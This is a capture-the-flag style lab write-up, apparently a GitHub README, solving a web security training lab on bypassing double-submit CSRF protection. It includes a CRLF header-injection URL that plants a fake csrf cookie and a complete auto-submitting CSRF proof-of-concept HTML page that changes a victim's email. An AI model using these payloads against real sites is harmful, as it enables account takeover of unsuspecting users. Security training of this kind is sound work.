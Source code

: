 # Lab 6: CSRF where token is duplicated in cookie

### 📝 **Overview**

This lab's email change functionality is **vulnerable to Cross-Site Request Forgery (CSRF)**. It uses the insecure **"double submit"** CSRF prevention technique, which can be bypassed.

### 🎯 **Objective**

Use your **exploit server** to host an HTML page that performs a **CSRF attack** to change the victim’s email address.

### 🔑 **Test Credentials**

You can log in to your own account using:

- **Username**: `wiener`
- **Password**: `peter`

### 💡 **Hint**

- You **cannot register an email address** that is already in use.
- While testing your exploit, change your **own** email address to ensure it works.
- When delivering the **final exploit** to the victim, make sure to use a **new, unique** email address.

### ✅ **Steps to Reproduce and Exploit**

1. **Login and Intercept Request**
    
    Open Burp’s browser and log in using:
    
    - **Username**: `wiener`
    - **Password**: `peter`
        
        Submit the **"Update email"** form and capture the request in **Burp Proxy history**.
        
        ![2025-06-15_19-52.png](LabImg/2025-06-15_19-52.png)
        
2. **Analyze Token Validation**
    - Send the request to **Burp Repeater**.
    - Observe that the `csrf` body parameter is simply validated by comparing it to the `csrf` cookie.
        
        ![2025-06-15_19-53.png](LabImg/2025-06-15_19-53.png)
        
        ![2025-06-15_19-54.png](LabImg/2025-06-15_19-54.png)
        
        ![2025-06-15_19-55.png](LabImg/2025-06-15_19-55.png)
        
        ![2025-06-15_19-56.png](LabImg/2025-06-15_19-56.png)
        
3. **Find Injection Point via Search**
    - Perform a **search** on the site.
    - Send the search request to **Repeater** and inspect the response.
    - Confirm that the **search term** is reflected in the `Set-Cookie` header (indicating a header injection vulnerability).
4. **Craft Cookie Injection URL**
    
    Create a URL to inject a fake CSRF token:
    
    ```html
    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None"
         onerror="document.forms[0].submit();">
    ```
    
    ![2025-06-15_19-56_1.png](LabImg/2025-06-15_19-56_1.png)
    
    ![2025-06-15_19-58.png](LabImg/2025-06-15_19-58.png)
    
    ![2025-06-15_20-00.png](LabImg/2025-06-15_20-00.png)
    
5. **Prepare the Exploit HTML**
    
    Use the **"Change Email"** request structure with CSRF token set to `fake`.
    
6. **Inject Cookie & Auto-Submit Form**
    
    Replace the `<script>` tag with an `<img>` tag that injects the cookie and submits the form:
    
    ```html
    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None"
         onerror="document.forms[0].submit();">
    ```
    
    ![2025-06-15_20-03.png](LabImg/2025-06-15_20-03.png)
    
    ![2025-06-15_20-33.png](LabImg/2025-06-15_20-33.png)
    
7. **Use a Unique Email Address**
    
    Ensure the `email` in your payload is **not the same** as your own (e.g., `test5@wiener.com`).
    
8. **Deliver the Exploit**
    
    Host the HTML on your **exploit server**, click **"Store"**, and then **"Deliver to victim"** to complete the lab.
    

---

### 🧾 **Final Exploit Code (CSRF PoC)**

```html
<html>
  <body>
    <form action="https://0a6400a60424d83580dd03ad00490079.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test5@wiener.com" />
      <input type="hidden" name="csrf" value="test" />
    </form>
    <img src="https://0a6400a60424d83580dd03ad00490079.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=test%3b%20SameSite=None" 
         onerror="document.forms[0].submit();">
  </body>
</html>
```

![2025-06-15_20-34.png](LabImg/2025-06-15_20-34.png)

![2025-06-15_20-34_1.png](LabImg/2025-06-15_20-34_1.png)